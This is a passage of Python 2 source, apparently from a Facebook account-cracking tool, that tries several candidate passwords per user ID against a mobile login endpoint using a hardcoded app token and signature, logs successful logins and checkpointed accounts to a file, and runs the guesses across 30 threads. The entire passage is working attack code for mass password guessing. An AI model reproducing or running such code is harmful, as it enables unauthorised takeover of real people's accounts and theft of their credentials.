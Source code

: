 									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if "access_token" in q:
										print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass4
											crt = open("save/checkpoint.txt", "a")
											crt.write(user+"|"+pass4+"\n")
											crt.close()
											checkpoint.append(user+pass4)
										else:
											
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if "access_token" in q:
												print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass5
												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass5
													crt = open("save/checkpoint.txt", "a")
													crt.write(user+"|"+pass5+"\n")
													crt.close()
													checkpoint.append(user+pass5)
										
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;97m----------------------------------------------"
	hamza('[✓] Process Has Been Completed.')
	hamza('\033[1;97m[✓] Checkpoint IDS Has Been Saved.')
	xx = str(len(oks))
	xxx = str(len(checkpoint))
	print ("[✓] Total \033[1;32mOK/\033[1;97mCP : \033[1;32m"+str(len(oks))+"/\033[1;97m"+str(len(checkpoint)))
	print (47*"-")
	raw_input("\nPress Enter To Back ")
	choice1()
	
